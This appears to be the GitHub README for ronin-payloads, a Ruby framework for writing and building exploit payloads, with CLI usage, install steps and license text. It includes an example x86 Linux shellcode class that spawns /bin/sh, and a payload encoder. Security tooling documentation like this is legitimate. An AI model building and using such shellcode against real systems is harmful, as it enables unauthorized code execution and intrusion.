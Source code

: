# ronin-payloads

[![CI](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml/badge.svg)](https://github.com/ronin-rb/ronin-payloads/actions/workflows/ruby.yml)
[![Code Climate](https://codeclimate.com/github/ronin-rb/ronin-payloads.svg)](https://codeclimate.com/github/ronin-rb/ronin-payloads)

* [Website](https://ronin-rb.dev/)
* [Source](https://github.com/ronin-rb/ronin-payloads)
* [Issues](https://github.com/ronin-rb/ronin-payloads/issues)
* [Documentation](https://ronin-rb.dev/docs/ronin-payloads/frames)
* [Slack](https://ronin-rb.slack.com) |
  [Discord](https://discord.gg/6WAb3PsVX9) |
  [Twitter](https://twitter.com/ronin_rb)

## Description

ronin-payloads is a Ruby micro-framework for writing and running exploit
payloads.

## Features

* Allows defining Payloads as plain-Ruby Classes.
* Provides base classes for a variety of common payloads:
  * {Ronin::Payloads::Payload}
  * {Ronin::Payloads::BinaryPayload}
  * {Ronin::Payloads::ASMPayload}
  * {Ronin::Payloads::Nops}
  * {Ronin::Payloads::Shellcode}
  * {Ronin::Payloads::BindShell}
* Provides classes for various payload-encoding techniques.
* Allows adding additional encoders to payloads.

## Synopsis

List available payloads:

```shell
$ ronin-payloads
```

Print information about a payload:

```shell
$ ronin-payloads list -n NAME -v
```

Build and output a payload:

```shell
$ ronin-payload build NAME
```

Build and output a raw un-escaped payload:

 ```shell
$ ronin-payload build NAME --raw
```

Load a payload from a file, then build and output it:

```shell
$ ronin-payload build -f FILE
```

Generate a boilerplate payload file, with some custom information:

```shell
$ ronin-payloads gen example_payload.rb \
                     --name Example --arch i686 --os Linux \
                     --authors Postmodern --description "This is an example."
```

**Note:** The list of available payload templates are:

* `binary_payload`
* `shellcode`
* `nops`

## Examples

Define a `/bin/sh` shellcode payload:

```ruby
require 'ronin/payloads/shellcode'

class BinShShellcode < Ronin::Payloads::Shellcode

  register 'shellcode-linux-x86-bin-sh'
  version '0.5'
  description <<~DESC
    Shellcode that spawns a local /bin/sh shell
  DESC

  targets_arch :x86
  targets_os   'Linux'

  build do
    shellcode do
      xor   eax, eax
      push  eax
      push  0x68732f2f
      push  0x6e69622f
      mov   esp, ebx
      push  eax
      push  ebx
      mov   esp, ecx
      xor   edx, edx
      int   0xb
    end
  end

end
```

Define a payload encoder class:

```ruby
require 'ronin/encoders/encoder'

class Base64Encoder < Ronin::Encoders::Encoder

  register 'text-base64'

  description <<~DESC
    Example base64 payload encoder
  DESC

  targets_arch :x86
  targets_os   'Linux'

  def encode(data)
    data.to_s.base64_encode
  end

end
```

## Requirements

* [Ruby] >= 2.7.0
* [ronin-core] ~> 0.1

## Install

```shell
$ gem install ronin-payloads
```

### Gemfile

```ruby
gem 'ronin-payloads', '~> 0.1'
```

### gemspec

```ruby
gem.add_dependency 'ronin-payloads', '~> 0.1'
```

## Development

1. [Fork It!](https://github.com/ronin-rb/ronin-payloads/fork)
2. Clone It!
3. `cd ronin-payloads/`
4. `bundle install`
5. `git checkout -b my_feature`
6. Code It!
7. `bundle exec rake spec`
8. `git push origin my_feature`

## License

Copyright (c) 2007-2013 Hal Brodigan (postmodern.mod3 at gmail.com)

This file is part of ronin-payloads.

ronin-payloads is free software: you can redistribute it and/or modify
it under the terms of the GNU Lesser General Public License as published
by the Free Software Foundation, either version 3 of the License, or
(at your option) any later version.

ronin-payloads is distributed in the hope that it will be useful,
but WITHOUT ANY WARRANTY; without even the implied warranty of
MERCHANTABILITY or FITNESS FOR A PARTICULAR PURPOSE.  See the
GNU Lesser General Public License for more details.

You should have received a copy of the GNU Lesser General Public License
along with ronin-payloads.  If not, see <https://www.gnu.org/licenses/>.

[Ruby]: https://www.ruby-lang.org
[ronin-core]: https://github.com/ronin-rb/ronin-core#readme
